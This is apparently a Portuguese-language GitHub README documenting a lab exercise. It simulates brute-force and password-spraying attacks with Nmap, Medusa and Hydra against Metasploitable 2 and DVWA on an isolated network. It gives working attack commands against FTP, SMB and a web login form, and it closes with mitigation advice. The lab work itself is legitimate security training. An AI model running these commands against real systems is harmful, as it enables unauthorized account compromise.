






## ENTENDENDO DESAFIO: SIMULACÃO DE ATAQUE DE FORCA BRUTA EM AMBIENTE CONTROLADO

Este projeto documenta a simulacao de ataques de FORCA BRUTA (brute-force) e PASSWORD SPRAYING utilizando o sistema operacional Kali Linux e as ferramentas Nmap, Medusa e Hydra, em um ambiente de laboratorio controlado. O alvo principal e a maquina virtual Metasploitable 2 e a aplicacao web DVWA (Damn Vulnerable Web App).

O objetivo e demonstrar a compreensao sobre vulnerabilidades de autenticacao e a proposicao de medidas de mitigacao.

---

## CONFIGURACAO DO AMBIENTE

O ambiente de testes foi montado com duas Maquinas Virtuais (VMs) no VirtualBox em uma rede isolada (Host-Only).

| Atacante | 192.168.56.102 | Kali Linux |  
| Alvo | 192.168.56.101 | Metasploitable 2 / DVWA |

---

## MAPEAMENTO E VARREDURA INICIAL (Nmap)

O processo de auditoria começou com a identificação dos serviços em execução no alvo.

### Varredura de Serviços e Versões

Comando:
nmap -sV -T4 -p- 192.168.56.101

Principais Serviços Abertos:
- Porta 21: FTP (vsftpd 2.3.4)
- Porta 22: SSH (OpenSSH 4.7p1)
- Porta 80: HTTP (Apache httpd 2.2.8 / DVWA)
- Porta 139/445: SMB (Samba smbd 3.x - 4.x)

### Criação das Wordlists

Foram criadas wordlists simples para usuários e senhas (users.txt e passwords.txt).

- users.txt: msfadmin, user, postgres, root, admin, test...
- passwords.txt: msfadmin, password, admin, 123456, 12345, qwerty...

---

## SIMULAÇÃO DE ATAQUES DE FORÇA BRUTA

### 1. Ataque de Força Bruta ao FTP (Medusa)

Comando:
medusa -H 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 10 -v 6

Resultado Encontrado:
Credencial Valida: msfadmin:msfadmin

### 2. Password Spraying no SMB (Medusa)

Comando:
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt -t 6 -v 6

Resultado Encontrado:
Credencial Valida: msfadmin:msfadmin

### 3. Automação de Login no DVWA (Hydra)

Comando:
hydra -L users.txt -P passwords.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 6 -vV

Resultado:
Demonstração da metodologia de teste contra o formulario web.

---

## CONCLUSÃO E MITIGACAO DE RISCOS

Os ataques foram bem-sucedidos em comprometer credenciais em multiplos servicos.

### Recomendações de Mitigação (Prevenção)

1. Politicas de Senhas Fortes: Exigir senhas longas (>12 caracteres) e complexas.
2. Mecanismos de Bloqueio (Rate Limiting): Bloquear contas ou IPs após poucas tentativas de login fracassadas (e.g., 5).
3. Autenticação Multifator (MFA): Implementar MFA em todos os serviços criticos.
4. Uso de Protocolos Seguros: Desabilitar servicos nao criptografados (FTP, Telnet), substituindo-os por SFTP e SSH.
5. Protecao Web (CAPTCHA): Utilizar reCAPTCHA em formularios de login web para impedir a automacao.

---

## FERRAMENTAS UTILIZADAS

* Kali Linux
* VirtualBox
* Metasploitable 2 / DVWA
* Nmap
* Medusa
* Hydra
